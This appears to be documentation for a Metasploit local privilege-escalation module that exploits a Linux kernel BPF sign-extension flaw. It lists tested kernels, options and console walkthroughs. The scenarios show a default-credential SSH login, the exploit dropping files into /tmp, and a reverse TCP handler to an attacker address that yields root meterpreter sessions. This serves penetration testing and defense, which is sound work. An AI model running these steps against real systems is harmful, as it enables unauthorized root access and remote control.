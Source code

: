## Vulnerable Application

  Linux kernel prior to 4.14.8 utilizes the Berkeley Packet Filter (BPF)
  which contains a vulnerability where it may improperly perform sign
  extension. This can be utilized to escalate privileges.

  The target system must be compiled with BPF support and must not have
  `kernel.unprivileged_bpf_disabled` set to `1`.

  This module has been tested successfully on:

  * Debian 9.0 kernel 4.9.0-3-amd64;
  * Deepin 15.5 kernel 4.9.0-deepin13-amd64;
  * ElementaryOS 0.4.1 kernel 4.8.0-52-generic;
  * Fedora 25 kernel 4.8.6-300.fc25.x86_64;
  * Fedora 26 kernel 4.11.8-300.fc26.x86_64;
  * Fedora 27 kernel 4.13.9-300.fc27.x86_64;
  * Gentoo 2.2 kernel 4.5.2-aufs-r1;
  * Linux Mint 17.3 kernel 4.4.0-89-generic;
  * Linux Mint 18.0 kernel 4.8.0-58-generic;
  * Linux Mint 18.3 kernel 4.13.0-16-generic;
  * Mageia 6 kernel 4.9.35-desktop-1.mga6;
  * Manjero 16.10 kernel 4.4.28-2-MANJARO;
  * Solus 3 kernel 4.12.7-11.current;
  * Ubuntu 14.04.1 kernel 4.4.0-89-generic;
  * Ubuntu 16.04.2 kernel 4.8.0-45-generic;
  * Ubuntu 16.04.3 kernel 4.10.0-28-generic;
  * Ubuntu 16.04.5 kernel 4.4.0-116-generic;
  * Ubuntu 17.04 kernel 4.10.0-19-generic;
  * ZorinOS 12.1 kernel 4.8.0-39-generic.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_sign_extension_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

### WritableDir

  A folder we can write files to.  Defaults to `/tmp`

### COMPILE
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-116-generic)

#### Initial Access

  ```
  resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
  resource (ubuntu.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (ubuntu.rb)> set username ubuntu
  username => ubuntu
  resource (ubuntu.rb)> set password ubuntu
  password => ubuntu
  resource (ubuntu.rb)> exploit
  [+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
  [*] Command shell session 1 opened (1.1.1.1:36273 -> 2.2.2.2:22) at 2018-03-23 20:42:04 -0400
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system
  [*] Writing files to target
  [*] Writing vQIIRofN to /tmp/vQIIRofN.c
  [*] Max line length is 65537
  [*] Writing 7797 bytes in 1 chunks of 26837 bytes (octal-encoded), using printf
  [*] Writing iuRJiXBf to /tmp/iuRJiXBf
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003869aa00
  [*] uidptr = ffff8800354fb244
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vQIIRofN.c
  [+] Deleted /tmp/vQIIRofN
  [+] Deleted /tmp/iuRJiXBf
  
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  ```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

  ```
  resource (ubuntu.rb)> use exploit/linux/local/bpf_sign_extension_priv_esc
  resource (ubuntu.rb)> set verbose true
  verbose => true
  resource (ubuntu.rb)> set session 1
  session => 1
  resource (ubuntu.rb)> set lhost 1.1.1.1
  lhost => 1.1.1.1
  resource (ubuntu.rb)> exploit
  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Kernel confirmed vulnerable
  [-] gcc is not installed.  Compiling will fail.
  [*] Dropping pre-compiled exploit on system
  [*] Writing vsQTwocG to /tmp/vsQTwocG
  [*] Max line length is 65537
  [*] Writing 14040 bytes in 1 chunks of 36802 bytes (octal-encoded), using printf
  [*] Writing JDQDHtEG to /tmp/JDQDHtEG
  [*] Max line length is 65537
  [*] Writing 283 bytes in 1 chunks of 844 bytes (octal-encoded), using printf
  [*] Starting execution of priv esc.
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (812100 bytes) to 2.2.2.2
  [*] task_struct = ffff88003a8a3800
  [*] uidptr = ffff88003d276304
  [*] spawning root shell
  [*] Sleeping before handling stage...
  [+] Deleted /tmp/vsQTwocG
  [+] Deleted /tmp/JDQDHtEG
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 16.04 (Linux 4.4.0-116-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```

### Debian 9.0 (x86_64)

  ```
  msf > use exploit/linux/local/bpf_sign_extension_priv_esc 
  msf exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/bpf_sign_extension_priv_esc) > set compile False
  compile => False
  msf exploit(linux/local/bpf_sign_extension_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/.JBJBxoEO' (34784 bytes) ...
  [*] Writing '/tmp/.1pZhL1gc' (207 bytes) ...
  [*] Launching exploit ...
  [*] Sending stage (861480 bytes) to 172.16.191.236
  [*] Cleaning up /tmp/.1pZhL1gc and /tmp/.JBJBxoEO ...

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-0-x64.local
  OS           : Debian 9.4 (Linux 4.9.0-3-amd64)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```
